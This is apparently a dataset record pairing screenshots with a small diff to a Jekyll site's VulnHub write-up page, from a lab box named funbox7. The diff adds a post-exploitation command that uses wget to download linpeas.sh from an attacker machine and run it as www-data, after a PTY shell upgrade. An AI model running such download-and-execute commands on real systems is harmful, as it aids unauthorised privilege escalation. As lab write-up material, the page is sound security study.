

Before and after one commit to laughtersec/laughtersec.github.io, a Jekyll site: the page built from pages/vulnhub-writeups.md, in a window 1280 px wide and 900 px high, scrolled down 7575 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update vulnhub-writeups.md

````diff
--- a/pages/vulnhub-writeups.md
+++ b/pages/vulnhub-writeups.md
@@ -279,8 +279,9 @@ $
 
 ```shell
 $ python3 -c 'import pty;pty.spawn("/bin/bash")'
-www-data@funbox7:/$
+www-data@funbox7:/$ mkdir /tmp/privesc && cd /tmp/privesc && wget http://192.168.45.169:8000/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
 ```
+Linpeas found some interesting configuration files
 
 ```shell
 <...>
````
